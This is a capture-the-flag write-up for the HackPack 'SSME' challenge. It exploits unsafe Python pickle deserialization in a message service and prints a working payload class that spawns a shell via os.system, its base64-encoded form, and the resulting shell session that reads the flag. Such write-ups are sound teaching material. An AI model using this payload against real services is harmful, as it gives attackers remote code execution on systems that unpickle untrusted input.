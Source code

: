 ```yaml
---
title: "HackPack: SSME"
categories:
  - HackPack
tags:
  - HackPack
---
```



Connecting to the vulnerable message encryption service returns a small User Interface:

```
nc cha.hackpack.club 41704

[*] Welcome to our Super Secure Message Encrypter (SSME - copyright pending)
[*] We use patented technology that only we have access to in order to safely encrypt your data
[*] Please use this tool to encrypt/decrypt messages

[*] Please select from the following options
1.) Encrypt a message
2.) Read a message
3.) Quit
```

We can try to read a message, and input a weird character ('):

```
Traceback (most recent call last):
  File "/home/challenger/app.py", line 46, in <module>
    main()                                                                                                           
  File "/home/challenger/app.py", line 37, in main                                                                   
    dec = decrypt(to_dec)                                                                                            
  File "/home/challenger/app.py", line 24, in decrypt                                                                                                                                                                                      
    return pickle.loads(codecs.decode(to_dec.encode(), "base64"))           
_pickle.UnpicklingError: invalid load key, '\xa2'.  
```

That pickle.loads error is interesting. We'll find a PoC for this:

```
import pickle
import os
class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('sh', ))
pickle_data = pickle.dumps(EvilPickle())
with open("backup.data", "wb") as file:
    file.write(pickle_data)
```

Running this with python, we can see that backup.data file created:

```
python test.py
cat backup.data

cposix
system
p0
(S'sh'
p1
tp2
Rp3
```

We can see that it's being base64 decoded on the server side, so we can run the following:

```
cat backup.data | base64 | pbcopy
```

Now, we'll try to read a file again:

```
Please enter the encrypted string here: Y3Bvc2l4CnN5c3RlbQpwMAooUydzaCcKcDEKdHAyClJwMwou

whoami
challenger

ls
app.py
flag.txt
cat flag.txt
flag{n3v3R_u$e_p!ckLe_w_uNtru$t3d_d4t4}
```
